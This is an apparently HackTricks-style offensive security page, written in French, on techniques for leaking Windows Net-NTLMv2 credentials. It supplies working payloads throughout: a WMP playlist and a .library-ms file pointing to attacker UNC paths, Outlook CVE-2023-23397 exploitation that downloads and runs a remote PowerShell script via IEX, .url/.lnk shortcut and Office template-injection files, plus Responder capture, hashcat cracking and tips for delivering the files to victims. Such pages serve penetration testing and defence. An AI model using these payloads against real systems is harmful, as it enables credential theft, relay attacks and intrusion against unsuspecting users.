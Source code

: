 # Endroits pour voler NTLM creds

{{#include ../../banners/hacktricks-training.md}}

**Consultez toutes les excellentes idées de [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) — du téléchargement d'un fichier Microsoft Word en ligne à la ntlm leaks source : https://github.com/soufianetahiri/TeamsNTLMLeak/blob/main/README.md et [https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)**


### Windows Media Player playlists (.ASX/.WAX)

Si vous parvenez à faire ouvrir ou prévisualiser à une cible une Windows Media Player playlist que vous contrôlez, vous pouvez leak Net‑NTLMv2 en pointant l'entrée vers un chemin UNC. WMP tentera de récupérer le média référencé via SMB et s'authentifiera implicitement.

Exemple de payload:
```xml
<asx version="3.0">
<title>Leak</title>
<entry>
<title></title>
<ref href="file://ATTACKER_IP\\share\\track.mp3" />
</entry>
</asx>
```
Flux de collecte et de cracking:
```bash
# Capture the authentication
sudo Responder -I <iface>

# Crack the captured NetNTLMv2
hashcat hashes.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
### ZIP-embedded .library-ms NTLM leak (CVE-2025-24071/24055)

Windows Explorer gère de manière non sécurisée les fichiers .library-ms lorsqu'ils sont ouverts directement à partir d'une archive ZIP. Si la définition de la bibliothèque pointe vers un chemin UNC distant (par ex., \\attacker\share), le simple fait de parcourir/lancer le .library-ms à l'intérieur du ZIP amène Explorer à énumérer le UNC et à émettre une authentification NTLM vers l'attaquant. Cela génère un NetNTLMv2 qui peut être cracked hors ligne ou potentiellement relayed.

Exemple minimal de .library-ms pointant vers un UNC contrôlé par l'attaquant
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<version>6</version>
<name>Company Documents</name>
<isLibraryPinned>false</isLibraryPinned>
<iconReference>shell32.dll,-235</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<simpleLocation>
<url>\\10.10.14.2\share</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
Étapes opérationnelles
- Créez le fichier .library-ms avec le XML ci‑dessus (définissez votre IP/nom d'hôte).
- Zippez-le (sur Windows : Send to → Compressed (zipped) folder) et livrez le ZIP à la cible.
- Lancez un NTLM capture listener et attendez que la victime ouvre le .library-ms depuis l’intérieur du ZIP.


### Outlook calendar reminder sound path (CVE-2023-23397) – zero‑click Net‑NTLMv2 leak

Microsoft Outlook for Windows traitait la propriété MAPI étendue PidLidReminderFileParameter dans les éléments de calendrier. Si cette propriété pointe vers un chemin UNC (p. ex., \\attacker\share\alert.wav), Outlook contacterait le partage SMB lorsque le rappel se déclenche, provoquant le leak du Net‑NTLMv2 de l’utilisateur sans aucun clic. Cela a été corrigé le 14 mars 2023, mais c’est toujours très pertinent pour les flottes legacy/non mises à jour et pour l’analyse d’incidents historiques.

Exploitation rapide avec PowerShell (Outlook COM):
```powershell
# Run on a host with Outlook installed and a configured mailbox
IEX (iwr -UseBasicParsing https://raw.githubusercontent.com/api0cradle/CVE-2023-23397-POC-Powershell/main/CVE-2023-23397.ps1)
Send-CalendarNTLMLeak -recipient user@example.com -remotefilepath "\\10.10.14.2\share\alert.wav" -meetingsubject "Update" -meetingbody "Please accept"
# Variants supported by the PoC include \\host@80\file.wav and \\host@SSL@443\file.wav
```
Côté Listener:
```bash
sudo responder -I eth0  # or impacket-smbserver to observe connections
```
Remarques
- Une victime a seulement besoin d’avoir Outlook for Windows en cours d’exécution lorsque le rappel se déclenche.
- Le leak fournit Net‑NTLMv2, adapté à l’offline cracking ou au relay (pas pass‑the‑hash).


### .LNK/.URL basé sur l'icône zero‑click NTLM leak (CVE‑2025‑50154 – contournement de CVE‑2025‑24054)

Windows Explorer affiche automatiquement les icônes des raccourcis. Des recherches récentes ont montré que, même après le patch d’avril 2025 de Microsoft pour les raccourcis d’icônes UNC, il était toujours possible de déclencher une authentification NTLM sans clics en hébergeant la cible du raccourci sur un chemin UNC et en laissant l’icône locale (contournement du patch attribué CVE‑2025‑50154). La simple visualisation du dossier amène Explorer à récupérer les métadonnées de la cible distante, envoyant NTLM vers le serveur SMB de l’attaquant.

Payload minimal Internet Shortcut (.url) :
```ini
[InternetShortcut]
URL=http://intranet
IconFile=\\10.10.14.2\share\icon.ico
IconIndex=0
```
Payload de raccourci de programme (.lnk) via PowerShell:
```powershell
$lnk = "$env:USERPROFILE\Desktop\lab.lnk"
$w = New-Object -ComObject WScript.Shell
$sc = $w.CreateShortcut($lnk)
$sc.TargetPath = "\\10.10.14.2\share\payload.exe"  # remote UNC target
$sc.IconLocation = "C:\\Windows\\System32\\SHELL32.dll" # local icon to bypass UNC-icon checks
$sc.Save()
```
Idées de livraison
- Placez le raccourci dans une archive ZIP et incitez la victime à la parcourir.
- Placez le raccourci sur un partage accessible en écriture que la victime ouvrira.
- Combinez avec d'autres fichiers d'appât dans le même dossier pour que Explorer prévisualise les éléments.


### Office remote template injection (.docx/.dotm) pour forcer NTLM

Les documents Office peuvent référencer un template externe. Si vous définissez le template joint sur un chemin UNC, l'ouverture du document s'authentifiera auprès de SMB.

Modifications minimales des relations DOCX (à l'intérieur de word/):

1) Éditez word/settings.xml et ajoutez la référence au template joint :
```xml
<w:attachedTemplate r:id="rId1337" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"/>
```
2) Éditez word/_rels/settings.xml.rels et pointez rId1337 vers votre UNC :
```xml
<Relationship Id="rId1337" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="\\\\10.10.14.2\\share\\template.dotm" TargetMode="External" xmlns="http://schemas.openxmlformats.org/package/2006/relationships"/>
```
3) Repaqueter en .docx et livrer. Lancez votre listener de capture SMB et attendez l'ouverture.

Pour des idées post-capture sur le relaying ou l'abus de NTLM, consultez :

{{#ref}}
README.md
{{#endref}}


## Références
- [HTB Fluffy – ZIP .library‑ms auth leak (CVE‑2025‑24071/24055) → GenericWrite → AD CS ESC16 to DA (0xdf)](https://0xdf.gitlab.io/2025/09/20/htb-fluffy.html)
- [HTB: Media — WMP NTLM leak → NTFS junction to webroot RCE → FullPowers + GodPotato to SYSTEM](https://0xdf.gitlab.io/2025/09/04/htb-media.html)
- [Morphisec – 5 NTLM vulnerabilities: Unpatched privilege escalation threats in Microsoft](https://www.morphisec.com/blog/5-ntlm-vulnerabilities-unpatched-privilege-escalation-threats-in-microsoft/)
- [MSRC – Microsoft mitigates Outlook EoP (CVE‑2023‑23397) and explains the NTLM leak via PidLidReminderFileParameter](https://www.microsoft.com/en-us/msrc/blog/2023/03/microsoft-mitigates-outlook-elevation-of-privilege-vulnerability/)
- [Cymulate – Zero‑click, one NTLM: Microsoft security patch bypass (CVE‑2025‑50154)](https://cymulate.com/blog/zero-click-one-ntlm-microsoft-security-patch-bypass-cve-2025-50154/)


{{#include ../../banners/hacktricks-training.md}}
